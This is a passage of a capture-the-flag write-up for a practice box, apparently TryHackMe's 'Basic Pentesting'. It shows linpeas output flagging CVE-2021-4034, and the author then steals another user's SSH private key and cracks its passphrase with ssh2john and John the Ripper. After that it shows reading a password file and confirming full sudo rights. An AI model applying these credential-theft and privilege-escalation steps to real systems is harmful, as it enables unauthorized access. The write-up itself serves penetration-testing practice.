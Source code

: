 In kay's directory I find a file "pass.bak" which I think is the answer. However, I can't read the file because I don't have the necessary permissions and I can't run sudo on the machine. Time for privesc...here comes linpeas
~~~
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.16

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034

sh: 1197: [[: not found
sh: 1197: rpm: not found
sh: 1197: 0: not found
sh: 1207: [[: not found
~~~

Trying to exploit this vulnerability was futile as I'm running as user Jan who seems to not have the necessary write permissions to create the files neede to escalate. Time to look around... Hehe, I can be able to read kay's private key.I copy the contents. When I try to login using te private_key, turns out it's encrypted and I'm asked for the password.
Time to bruteforce with JohnTheRipper to get the password protecting the private key.

~~~
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ ssh2john id_rsa > hash

┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ john --wordlist=~/Tools/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:04 DONE (2022-07-23 13:15) 0.2183g/s 18068p/s 18068c/s 18068C/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                        
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ 
~~~

Bingo, now I can login and read the contents of "pass.bak" and answer the questions.
~~~
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ 
~~~

I can't leave it like that without privesc
Using the password, user Kay can run all commands as sudo
~~~
kay@basic2:~$ sudo -l
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$ 
~~~
